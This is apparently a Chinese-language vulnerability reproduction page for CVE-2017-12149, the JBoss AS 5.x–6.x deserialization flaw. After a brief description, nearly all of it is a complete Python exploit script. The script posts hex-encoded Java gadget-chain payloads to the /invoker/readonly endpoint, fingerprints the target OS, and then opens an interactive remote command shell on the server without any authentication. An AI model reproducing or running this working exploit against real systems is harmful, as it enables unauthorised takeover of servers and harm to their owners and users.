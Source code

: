 （CVE-2017-12149）JBosS AS 6.X 反序列化漏洞
===========================================

一、漏洞简介
------------

JBOSSApplication
Server反序列化命令执行漏洞(CVE-2017-12149)，远程攻击者利用漏洞可在未经任何身份验证的服务器主机上执行任意代码。漏洞危害程度为高危(High)。

二、漏洞影响
------------

JBoss 5.x - 6.x

三、复现过程
------------

### poc

    cve-2017-12149_cmd.py
    #!/usr/bin/python
    #-*- coding:utf-8 -*-

    import requests
    import binascii
    import sys
    import re

    if len(sys.argv)!=2:
        print('+---------------------------------------------------------------+')
        print('+ DES: by zhzyker as https://github.com/zhzyker/exphub          +')
        print('+      as https://github.com/1337g/CVE-2017-10271               +')
        print('+---------------------------------------------------------------+')
        print('+ USE: python <filename> <url>                                  +')
        print('+ EXP: python cve-2017-12149_cmd.py http://freeerror.org:8080   +')
        print('+ VER: Jboss AS 5.X                                             +')
        print('+      Jboss AS 6.X                                             +')
        print('+---------------------------------------------------------------+')
        sys.exit()
    url_in = sys.argv[1]

    linux_payload_1 =  "aced0005737200116a6176612e7574696c2e48617368536574ba44859596b8b734030000"                  "7870770c000000023f40000000000001737200346f72672e6170616368652e636f6d6d6f"                  "6e732e636f6c6c656374696f6e732e6b657976616c75652e546965644d6170456e747279"                  "8aadd29b39c11fdb0200024c00036b65797400124c6a6176612f6c616e672f4f626a6563"                  "743b4c00036d617074000f4c6a6176612f7574696c2f4d61703b7870740003666f6f7372"                  "002a6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e6d6170"                  "2e4c617a794d61706ee594829e7910940300014c0007666163746f727974002c4c6f7267"                  "2f6170616368652f636f6d6d6f6e732f636f6c6c656374696f6e732f5472616e73666f72"                  "6d65723b78707372003a6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374"                  "696f6e732e66756e63746f72732e436861696e65645472616e73666f726d657230c797ec"                  "287a97040200015b000d695472616e73666f726d65727374002d5b4c6f72672f61706163"                  "68652f636f6d6d6f6e732f636f6c6c656374696f6e732f5472616e73666f726d65723b78"                  "707572002d5b4c6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e"                  "732e5472616e73666f726d65723bbd562af1d83418990200007870000000067372003b6f"                  "72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e66756e63746f"                  "72732e436f6e7374616e745472616e73666f726d6572587690114102b1940200014c0009"                  "69436f6e7374616e7471007e00037870767200176a6176612e6e65742e55524c436c6173"                  "734c6f61646572000000000000000000000078707372003a6f72672e6170616368652e63"                  "6f6d6d6f6e732e636f6c6c656374696f6e732e66756e63746f72732e496e766f6b657254"                  "72616e73666f726d657287e8ff6b7b7cce380200035b000569417267737400135b4c6a61"                  "76612f6c616e672f4f626a6563743b4c000b694d6574686f644e616d657400124c6a6176"                  "612f6c616e672f537472696e673b5b000b69506172616d54797065737400125b4c6a6176"                  "612f6c616e672f436c6173733b7870757200135b4c6a6176612e6c616e672e4f626a6563"                  "743b90ce589f1073296c020000787000000001757200125b4c6a6176612e6c616e672e43"                  "6c6173733bab16d7aecbcd5a990200007870000000017672000f5b4c6a6176612e6e6574"                  "2e55524c3b5251fd24c51b68cd020000787074000e676574436f6e7374727563746f7275"                  "71007e001a000000017671007e001a7371007e00137571007e0018000000017571007e00"                  "18000000017571007e001c000000017372000c6a6176612e6e65742e55524c962537361a"                  "fce47203000749000868617368436f6465490004706f72744c0009617574686f72697479"                  "71007e00154c000466696c6571007e00154c0004686f737471007e00154c000870726f74"                  "6f636f6c71007e00154c000372656671007e00157870ffffffffffffffff707400052f74"                  "6d702f74000074000466696c65707874000b6e6577496e7374616e63657571007e001a00"                  "0000017671007e00187371007e00137571007e00180000000174000e52756e436865636b"                  "436f6e6669677400096c6f6164436c6173737571007e001a00000001767200106a617661"                  "2e6c616e672e537472696e67a0f0a4387a3bb34202000078707371007e00137571007e00"                  "18000000017571007e001a0000000171007e003371007e001e7571007e001a0000000171"                  "007e00207371007e00137571007e001800000001757200135b4c6a6176612e6c616e672e"                  "537472696e673badd256e7e91d7b470200007870000000017400"
    win_payload_1 =  "aced0005737200116a6176612e7574696c2e48617368536574ba44859596b8b734030000"                  "7870770c000000023f40000000000001737200346f72672e6170616368652e636f6d6d6f"                  "6e732e636f6c6c656374696f6e732e6b657976616c75652e546965644d6170456e747279"                  "8aadd29b39c11fdb0200024c00036b65797400124c6a6176612f6c616e672f4f626a6563"                  "743b4c00036d617074000f4c6a6176612f7574696c2f4d61703b7870740003666f6f7372"                  "002a6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e6d6170"                  "2e4c617a794d61706ee594829e7910940300014c0007666163746f727974002c4c6f7267"                  "2f6170616368652f636f6d6d6f6e732f636f6c6c656374696f6e732f5472616e73666f72"                  "6d65723b78707372003a6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374"                  "696f6e732e66756e63746f72732e436861696e65645472616e73666f726d657230c797ec"                  "287a97040200015b000d695472616e73666f726d65727374002d5b4c6f72672f61706163"                  "68652f636f6d6d6f6e732f636f6c6c656374696f6e732f5472616e73666f726d65723b78"                  "707572002d5b4c6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e"                  "732e5472616e73666f726d65723bbd562af1d83418990200007870000000067372003b6f"                  "72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e66756e63746f"                  "72732e436f6e7374616e745472616e73666f726d6572587690114102b1940200014c0009"                  "69436f6e7374616e7471007e00037870767200176a6176612e6e65742e55524c436c6173"                  "734c6f61646572000000000000000000000078707372003a6f72672e6170616368652e63"                  "6f6d6d6f6e732e636f6c6c656374696f6e732e66756e63746f72732e496e766f6b657254"                  "72616e73666f726d657287e8ff6b7b7cce380200035b000569417267737400135b4c6a61"                  "76612f6c616e672f4f626a6563743b4c000b694d6574686f644e616d657400124c6a6176"                  "612f6c616e672f537472696e673b5b000b69506172616d54797065737400125b4c6a6176"                  "612f6c616e672f436c6173733b7870757200135b4c6a6176612e6c616e672e4f626a6563"                  "743b90ce589f1073296c020000787000000001757200125b4c6a6176612e6c616e672e43"                  "6c6173733bab16d7aecbcd5a990200007870000000017672000f5b4c6a6176612e6e6574"                  "2e55524c3b5251fd24c51b68cd020000787074000e676574436f6e7374727563746f7275"                  "71007e001a000000017671007e001a7371007e00137571007e0018000000017571007e00"                  "18000000017571007e001c000000017372000c6a6176612e6e65742e55524c962537361a"                  "fce47203000749000868617368436f6465490004706f72744c0009617574686f72697479"                  "71007e00154c000466696c6571007e00154c0004686f737471007e00154c000870726f74"                  "6f636f6c71007e00154c000372656671007e00157870ffffffffffffffff707400112f63"                  "3a2f77696e646f77732f74656d702f74000074000466696c65707874000b6e6577496e73"                  "74616e63657571007e001a000000017671007e00187371007e00137571007e0018000000"                  "0174000e52756e436865636b436f6e6669677400096c6f6164436c6173737571007e001a"                  "00000001767200106a6176612e6c616e672e537472696e67a0f0a4387a3bb34202000078"                  "707371007e00137571007e0018000000017571007e001a0000000171007e003371007e00"                  "1e7571007e001a0000000171007e00207371007e00137571007e00180000000175720013"                  "5b4c6a6176612e6c616e672e537472696e673badd256e7e91d7b47020000787000000001"                  "7400"
    payload_2 =  "71007e002a7571007e001a0000000171007e002c737200116a6176612e7574696c2e48617"                  "3684d61700507dac1c31660d103000246000a6c6f6164466163746f724900097468726573"                  "686f6c6478703f4000000000000077080000001000000000787878"

    payload_other = ""

    os_type = "unknown"

    def build_command_hex(command):
        command_exec_hex = "".join("{:02x}".format(ord(c)) for c in command)
        command_len = len(command)
        command_len_hex = '{:02x}'.format(command_len)
        command_hex = command_len_hex + command_exec_hex
        return command_hex

    def build_payload(target_os, command):
        global os_type
        if os_type == "unknown":
            if target_os == "linux":
                payload = binascii.unhexlify(linux_payload_1 + build_command_hex(command) + payload_2)
            if target_os == "windows":
                payload = binascii.unhexlify(win_payload_1 + build_command_hex(command) + payload_2)
        if os_type == "linux":
            payload = binascii.unhexlify(linux_payload_1 + build_command_hex(command) + payload_2)
        if os_type == "windows":
            payload = binascii.unhexlify(win_payload_1 + build_command_hex(command) + payload_2)
        return payload

    def do_post(payload):
        payload_url = url_in + "/invoker/readonly"
        result = requests.post(payload_url, payload, verify=False)
        result_content = str(result.content)
        return result_content

    def check_OS():
        global os_type
        payload_linux = build_payload('linux','whoami')
        payload_win = build_payload('windows','whoami')
        linux_re = do_post(payload_linux)
        win_re = do_post(payload_win)
        if  "[L291919]" in linux_re:
            os_type = 'linux'
        if "[W291013]" in win_re:
            os_type = 'windows'
        return os_type


    def run_command(command_in):
        payload = build_payload(os_type,command_in)
        result = do_post(payload)
        result = re.findall ( '](.*?)RunCheckConfig',result, re.DOTALL)
        if len(result) == 0:
            result.append("command error!\n")
        command_callback = result[0]
        return command_callback

    check_OS()
    if os_type =="unknown":
        print "[*] Unknown System"
        exit(0)

    print "***************************************************** \n"            "*             Target system is  " + os_type + " OS            * \n"            "***************************************************** \n"

    while 1:
        command_in = raw_input("Shell >>> ")
        if command_in == "exit" : exit(0)
        print run_command(command_in).decode('utf-8')

